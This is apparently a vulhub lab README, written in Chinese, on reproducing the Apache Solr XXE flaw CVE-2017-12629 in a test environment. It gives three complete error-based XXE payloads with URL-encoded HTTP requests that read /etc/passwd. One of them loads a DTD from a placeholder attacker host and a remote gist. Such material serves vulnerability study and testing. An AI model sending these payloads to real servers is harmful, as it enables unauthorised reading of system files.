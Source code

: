 # Apache solr XML 实体注入漏洞（CVE-2017-12629）

漏洞原理与分析可以参考：

 - https://www.exploit-db.com/exploits/43009/
 - https://paper.seebug.org/425/

Apache Solr 是一个开源的搜索服务器。Solr 使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现。原理大致是文档通过Http利用XML加到一个搜索集合中。查询该集合也是通过 http收到一个XML/JSON响应来实现。此次7.1.0之前版本总共爆出两个漏洞：XML实体扩展漏洞（XXE）和远程命令执行漏洞（RCE），二者可以连接成利用链，编号均为CVE-2017-12629。

本环境仅测试XXE漏洞，RCE和利用链，可以在 https://github.com/vulhub/vulhub/tree/master/solr/CVE-2017-12629-RCE 中查看。

## 环境搭建

运行漏洞环境：


命令执行成功后，需要等待一会，之后访问`http://your-ip:8983/`即可查看到Apache solr的管理页面，无需登录。

## 漏洞复现

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind XXE漏洞。但我们可以利用[Error Based XXE](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)来读取文件。

利用Error Based XXE，需要找到符合条件的dtd文件，这里提供几个思路。

### 利用fontconfig-config的fonts.dtd

openjdk的Docker镜像安装了fontconfig-config，其包含一个dtd文件符合要求：`/usr/share/xml/fontconfig/fonts.dtd`。

构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

    <!ENTITY % expr 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22file%3A%2F%2F%2Fusr%2Fshare%2Fxml%2Ffontconfig%2Ffonts%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20expr%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：

![](1.png)

### 利用Jar包中的dtd文件

因为是黑盒，我们无法预测目标服务器安装的软件，利用软件内部的dtd文件会是一个更好的办法，比如Solr依赖的lucene-queryparser.jar中包含的LuceneCoreQuery.dtd。

构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/solr/server/solr-webapp/webapp/WEB-INF/lib/lucene-queryparser-7.0.1.jar!/org/apache/lucene/queryparser/xml/LuceneCoreQuery.dtd">

    <!ENTITY % queries 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22jar%3Afile%3A%2F%2F%2Fopt%2Fsolr%2Fserver%2Fsolr%2Dwebapp%2Fwebapp%2FWEB%2DINF%2Flib%2Flucene%2Dqueryparser%2D7%2E0%2E1%2Ejar%21%2Forg%2Fapache%2Flucene%2Fqueryparser%2Fxml%2FLuceneCoreQuery%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20queries%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：

![](2.png)

### 利用远程dtd文件

如果我们确实无法在目标服务器上找到合适的本地dtd文件，且服务器可以连接外网，也可以利用远程dtd文件来实现。

部署一个dtd文件在http服务器中：

```xml
<!ENTITY % test "example">
<!ELEMENT pattern (%test;)>
```

然后构造XXE Payload如下：

```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "http://evil.host.name/include.dtd">

    <!ENTITY % test 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message>any text</message>
```

对其编码后发送：

```
GET /solr/demo/select?wt=xml&defType=xmlparser&q=%3C%3Fxml%20version%3D%221%2E0%22%20%3F%3E%0A%3C%21DOCTYPE%20message%20%5B%0A%20%20%20%20%3C%21ENTITY%20%25%20local%5Fdtd%20SYSTEM%20%22https%3A%2F%2Fgist%2Egithubusercontent%2Ecom%2Fphith0n%2F188f03ac0f3c5d899895268f05fd0a51%2Fraw%2F7b481b122622d77c49c619fa047a52051f9652d8%2Finclude%2Edtd%22%3E%0A%0A%20%20%20%20%3C%21ENTITY%20%25%20test%20%27aaa%29%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20file%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%0A%20%20%20%20%20%20%20%20%3C%21ENTITY%20%26%23x25%3B%20eval%20%22%3C%21ENTITY%20%26%23x26%3B%23x25%3B%20error%20SYSTEM%20%26%23x27%3Bfile%3A%2F%2F%2Fnonexistent%2F%26%23x25%3Bfile%3B%26%23x27%3B%3E%22%3E%0A%20%20%20%20%20%20%20%20%26%23x25%3Beval%3B%0A%20%20%20%20%20%20%20%20%26%23x25%3Berror%3B%0A%20%20%20%20%20%20%20%20%3C%21ELEMENT%20aa%20%28bb%27%3E%0A%0A%20%20%20%20%25local%5Fdtd%3B%0A%5D%3E%0A%3Cmessage%3Eany%20text%3C%2Fmessage%3E HTTP/1.1
Host: localhost.lan:8983
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

成功读取到/etc/passwd文件：

![](3.png)
